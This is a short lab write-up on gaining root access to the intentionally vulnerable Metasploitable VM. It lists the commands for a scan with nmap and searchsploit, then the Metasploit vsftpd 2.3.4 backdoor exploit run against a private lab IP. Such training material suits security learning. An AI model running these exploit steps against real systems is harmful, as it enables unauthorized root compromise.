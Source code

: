  ## Metasploitable Writeup ##

 
 **Metasploitable** is virtual machine is an intentionally vulnerable version of Ubuntu Linux designed for testing security tools and demonstrating common vulnerabilities.

###  Gain root access on this machine:  ###

•	Login to your kali or any other Linux distribution, in my case I using kali Linux 

•	Login to the metasploitable machine 

• Login username and password in this case is: ***msfadmin***

  ![2](https://user-images.githubusercontent.com/58820314/107451148-60780980-6b4f-11eb-8a33-ce0c5302154b.png)

•	Check the IP address for this machine by : ***ifconfig***

![1](https://user-images.githubusercontent.com/58820314/107451122-52c28400-6b4f-11eb-9a93-48b02d9ffd6b.png)

•	Now we need to make sure that we can ping on the machine by using this command **ping 192.168.3.130** where the ip of the machine is **192.168.3.130** and here no packet loss which mean connection is successful. 

![3](https://user-images.githubusercontent.com/58820314/107451152-6110a000-6b4f-11eb-942f-2e2e8cfd6c75.png)


•	Next step is to doing scanning for open ports and for service version using nmap and the command : **nmap -sV 192.168.3.130**

![6 ](https://user-images.githubusercontent.com/58820314/107451162-64a42700-6b4f-11eb-8ff9-8352b3068cee.png)

You can test any service here and for me I used **(vsftpd 2.3.4)**

The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network, vsftpd, which stands for "Very Secure FTP Daemon”, is an FTP server for Unix-like systems, including Linux.

•	In this step we search for vulnerability on this service using this command  **serachsploit vsftpd**

![4](https://user-images.githubusercontent.com/58820314/107451158-62da6380-6b4f-11eb-83a1-641787528b49.png)

Here we found a vulnerabilities but we will use specific one in order to gain access :  **vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)|unix/remote/17491.rb**

•	Now we need to open the **Metasploit framework** in order to use this vulnerability but we should start the database using these commands 

1.	**sudo msfdb start**

2.	**msfconsole**

![5](https://user-images.githubusercontent.com/58820314/107451159-6372fa00-6b4f-11eb-88e0-e6cf62ae70b0.png)

•	next step is to search for the vsftpd on metaspoloit using this command  **search vsftpd**

![7](https://user-images.githubusercontent.com/58820314/107451166-65d55400-6b4f-11eb-8aa2-e213136ac1a3.png)

•	Here we found the backdoor to gain access which is  **exploit/unix/ftp/vsftpd_234_backdoor**

•	We going to use this backdoor using this command  **use exploit/unix/ftp/vsftpd_234_backdoor**

•	we have to see the options for this backdoor by this command **options** 

•	next step is to identify the **RHOST IP** (the metasploitable IP) by this command **set rhosts 192.168.3.130**

•	the final step is to run our script by this command 

**run**  

 

